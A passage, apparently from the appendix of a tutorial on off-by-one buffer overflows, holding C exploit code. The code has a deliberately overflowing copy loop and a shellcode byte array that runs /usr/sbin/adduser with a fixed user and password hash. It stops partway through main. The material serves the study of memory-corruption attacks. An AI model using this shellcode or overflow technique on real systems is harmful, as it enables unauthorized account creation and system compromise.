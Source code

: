 {% endhighlight %} 

# Appendix

## Example for Off-By-Ones Overflows
{% highlight C %}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/errno.h>

#define DEFAULT_OFFSET  500 - 32
#define DEFAULT_BUFFER  521
#define NOP             0x90

char shellcode[] =
    "\xeb\x3a\x5e\x89\x76\x3f\x8d\x46"
    "\x12\x89\x46\x43\x8d\x46\x19\x89"
    "\x46\x47\x8d\x46\x1c\x89\x46\x4b"
    "\x31\xc0\x88\x46\x11\x88\x46\x18"
    "\x88\x46\x1b\x88\x46\x3e\x89\x46"
    "\x4f\xb0\x0b\x89\xf3\x8d\x4e\x3f"
    "\x8d\x56\x4f\xcd\x80\x31\xdb\x89"
    "\xd8\x40\xcd\x80\xe8\xc1\xff\xff"
    "\xff\x2f\x75\x73\x72\x2f\x73\x62"
    "\x69\x6e\x2f\x61\x64\x64\x75\x73"
    "\x65\x72\x23\x6d\x61\x72\x6b\x75"
    "\x73\x23\x2d\x70\x23\x24\x31\x24"
    "\x37\xcf\x76\xd9\x4c\x4b\xcf\xb5"
    "\x24\x67\x53\x55\x4b\x47\x36\x52"
    "\x41\x4c\x7a\x52\x41\x38\x72\x79"
    "\x52\x4f\x63\x54\x73\x47\x30\x23";

unsigned long getESP(void) {
    __asm__("movl %esp,%eax");
}

void calc(char *str) {
    char bb[512];
    int i;
    // Because too much memory is allocated (GCC bug),
    // let the loop run a bit further. Even so, only
    // the lower byte of the saved frame pointer (SFP) is overwritten!!!
    for(i = 0; i <= 520; i++)
        bb[i] = str[i];

    bb[0] = bb[0];
}

void calctmp(char *str) {
    // The call does not happen directly from main,
    // but via an intermediate function. Why???
    // The SFP in main is too large and therefore cannot be reached.
    // Check whether this might be related to argc, argv, and envp.
    // char arr[33];
    calc(str);
}

int main(int argc, char *argv[]) {
    // char dummy[1];
    char *buff, *tmp;
    int offset = DEFAULT_OFFSET, buffs = DEFAULT_BUFFER, i;
    long adr, *adr_pointer;

    if(argc > 1)